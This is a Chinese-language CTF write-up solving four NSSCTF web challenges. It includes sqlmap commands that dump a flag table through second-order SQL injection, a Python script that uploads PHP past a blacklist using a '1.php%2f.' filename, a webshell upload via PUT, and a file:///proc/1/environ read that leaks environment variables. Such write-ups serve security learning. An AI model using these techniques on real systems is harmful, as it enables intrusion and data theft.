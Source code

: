 #### NSSCTF Round #1

##### basic_check

题目：https://www.nssctf.cn/problem/2199

一个页面内什么都没有，先扫一下目录和可用的请求类型。使用curl的具体命令为：

```shell
curl -X OPTIONS http://example.com -i
```

这道题支持PUT请求

> PUT请求如果URI不存在，则要求服务器根据**请求创建资源**，如果存在，服务器就接受请求内容，并修改URI资源的原始版本。

所以我们可以通过PUT请求传一个一句话木马即可拿到访问权限。

##### sql_by_sql

题目：https://www.nssctf.cn/problem/2200

参考：https://www.cnblogs.com/jackie-lee/p/16124022.html

发现可以注册用户，考虑二次注入。先注册一个amin' --+的恶意用户，再修改密码，这样admin的密码就被改成了我们的输入。在主页发现注入点，需要使用布尔盲注，尝试sqlmap自动化解决。一开始没注成功，把level提高到3成功了。POC如下：

```shell
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --level 3
// 这里的链接：/query data：id=1和cookie的内容用burp抓包就可以看到，即为sqlmap找到正确的注入点
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --tables
// 这里是确定注入点后使用--tables参数让sqlmap读取数据库的表名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" --columns
// 这里用-T指定数据表后使用--columns参数让sqlmap读取数据库的列名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" -C "flag" --dump
// 这里打印flag表flag列的内容，得到flag
```

#### NSSCTF 2nd

##### php签到

题目：https://www.nssctf.cn/problem/4280

参考：https://www.anquanke.com/post/id/253383

一道有黑名单的文件上传题，php和phtml肯定是不能直接上传的，考虑文件解析漏洞，发现上传1.php/.可以实现绕过，解析原理应该是文件名提取是最后一个/和.的中间部分，文件后缀提取的是最后一个.后面的部分，但是在操作系统中这种文件名不符合规范，所以/.在传入成功之后会被删除，上传代码为

```python
import requests

url = "http://node5.anna.nssctf.cn:28295"
file_content = "<?php phpinfo();?>'"
file = {"file": ("1.php%2f.", file_content)}
response = requests.post(url, files=file)
print(response.text)
```

之后访问1.php就可以查看phpinfo的内容，在其中找到flag。

##### MyBox

题目：https://www.nssctf.cn/problem/4299

可能是非预期解，直接用file读环境变量。

```php
?url=file:///proc/1/environ
```

